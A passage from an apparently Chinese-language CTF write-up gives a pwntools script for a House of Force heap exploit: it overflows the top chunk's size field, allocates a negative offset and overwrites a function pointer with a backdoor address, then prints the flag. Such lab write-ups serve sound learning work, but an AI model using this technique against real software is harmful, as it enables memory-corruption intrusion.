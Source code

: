 ```python
def show():
	p.recvuntil(":")
	p.sendline("1")

magic = 0x400d49  #后门函数
 
add(0x30,'aaaa')
#gdb.attach(p)

payload = 0x30 * b'a'
payload += b'a' * 8 + p64(0xffffffffffffffff)  #溢出到topchunk的size域
edit(0,0x41,payload)
#gdb.attach(p)

offset = -(0x60+0x8+0xf)  #计算要申请多大的chunk才能得到目标地址的topchunk指针
add(offset,'aaaa')
add(0x10,p64(magic) * 2)  #现在申请到了main函数的函数指针的位置，改为后门函数直接获得flag
 
#gdb.attach(p)
 
p.interactive()
```

偏移的计算一般就是`目标地址-当前topchunk指针`。不过还有一些关于源码的问题要考虑，详情看ctfwiki。

## Flag
> flag{dce1bf63-2e80-48b8-bf1a-2506db98f92d}